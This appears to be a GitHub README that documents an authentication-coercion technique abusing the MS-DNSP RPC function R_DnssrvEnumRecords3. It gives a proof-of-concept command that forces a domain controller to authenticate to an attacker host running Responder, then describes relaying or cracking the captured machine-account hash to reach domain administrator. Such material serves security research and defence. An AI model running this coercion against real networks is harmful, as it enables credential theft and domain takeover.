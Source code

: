 # MS-DNSP - Remote call to R_DnssrvEnumRecords3 (opnum 11)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvEnumRecords3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d7d4a3ac-7995-4d41-9fcf-1826cce95e2c)

+ **Function operation number**: `11`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvEnumRecords3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d7d4a3ac-7995-4d41-9fcf-1826cce95e2c) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvEnumRecords3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvEnumRecords3(
   [in]                                   handle_t         hBindingHandle,
   [in]                                   DWORD            dwClientVersion,
   [in]                                   DWORD            dwSettingFlags,
   [in, unique, string]                   LPCWSTR          pwszServerName,
   [in, unique, string]                   LPCSTR           pszZone,
   [in, unique, string]                   LPCWSTR          pwszZoneScope,
   [in, unique, string]                   LPCSTR           pszNodeName,
   [in, unique, string]                   LPCSTR           pszStartChild,
   [in]                                   WORD             wRecordType,
   [in]                                   DWORD            fSelectFlag,
   [in, unique, string]                   LPCSTR           pszFilterStart,
   [in, unique, string]                   LPCSTR           pszFilterStop,
   [out]                                  PDWORD           pdwBufferLength,
   [out, size_is(, *pdwBufferLength)]     PBYTE*           ppBuffer
 );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvEnumRecords3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d7d4a3ac-7995-4d41-9fcf-1826cce95e2c